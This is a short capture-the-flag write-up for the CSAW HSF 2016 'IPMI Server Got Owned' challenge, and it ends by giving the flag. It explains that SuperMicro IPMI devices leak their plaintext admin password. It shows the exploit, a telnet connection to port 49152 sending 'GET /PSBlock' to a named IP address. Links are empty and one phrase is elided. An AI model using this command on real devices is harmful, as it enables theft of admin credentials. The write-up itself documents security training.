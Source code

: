 # CSAW HSF 2016 Prelims: IPMI Server Got Owned

**Category:** Network Forensics
**Points:** 300
**Solves:** ?
**Description:**

> We don’t need security on embedded devices anyway, right?
> 
> http://prod_atl_dc3_r49_u23.rogueterminal.com/
> 
> Challenge by Gus Naughton

## Write-up

When we navigate to ``23.226.239.10``, we are greeted with a SuperMicro IPMI server login page. Looking up SuperMicro IPMI vulnerabilities, we stumble upon this link [] (). It details that the plaintext password to the admin interface on IPMI devices can be accessed by connecting to the ????? and running ``GET /PSBlock``.

```bash
$ telnet 23.226.239.10 49152
GET /PSBlock

```

### Flag

``flag{1PM1_1S_MUY_1N$3CUR3_LOPL}``

## Other write-ups and resources

### Resources
* [] ()

### Other write-ups
* (none yet)


